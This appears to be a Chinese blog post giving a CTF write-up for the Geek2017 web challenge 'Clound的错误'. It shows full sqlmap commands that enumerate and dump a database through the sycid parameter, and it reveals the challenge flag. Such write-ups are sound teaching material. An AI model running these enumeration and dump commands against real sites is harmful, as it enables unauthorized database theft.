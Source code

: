```yaml
---
layout:     post
title:      geek2017wp
subtitle:   
date:       2017-11-18
author:     FNX
header-img: img/post-bg-ios10.jpg
catalog: true
tags:
    - WP
    - Geek2017
    - WEB
---
```


## Geek2017

# Clound的错误

#### 0x00 [原理]
     kali虚拟机下的命令运用，sqlmap的使用
     
#### 0x01 [目的]
     了解kali系统下sqlmap的使用
     
#### 0x02 [环境]
     kali
     
#### 0x03 [工具]
     sqlmap
     
#### 0x04 [步骤]

1.首先打开address，是一张可爱的图片啊啊啊啊～并没有什么提示

![](/files_for_wp/clound1.png)

2.右键查看源代码，有注入点的提示： sycid=1

![](/files_for_wp/clound2.png)

3.http://game.sycsec.com:2007/?sycid=1

![](/files_for_wp/clound3.png)

出现hint：select * from user where id='1'

4.使用sqlmap注入
  ①检测注入点是否可用:sqlmap -u "http://game.sycsec.com:2007/?sycid=1"  

  ![](/files_for_wp/clound4.png)</br>

  ②暴库:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" --dbs 

  ![](/files_for_wp/clound5.png)

  库名：f1ag

  ③暴表:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag --tables

  ![](/files_for_wp/clound6.png)
  
  表名：flag

  ④暴字段:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag --columns

  ![](/files_for_wp/clound7.png)
  
  字段：f4ag 
  
  ⑤暴字段内容:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag -C f4ag --dump
  
  ![](/files_for_wp/clound8.png)
  
  字段内容：SYC{Err0r_sql_inj}
  
4.flag：SYC{Err0r_sql_inj}



#### 0x05 [总结]
    sqlmap使用

    详细可参考：(https://www.2cto.com/article/201208/151503.html)[手工注入] ， (http://blog.csdn.net/zgyulongfei/article/details/41017493)[sqlmap基本教程]





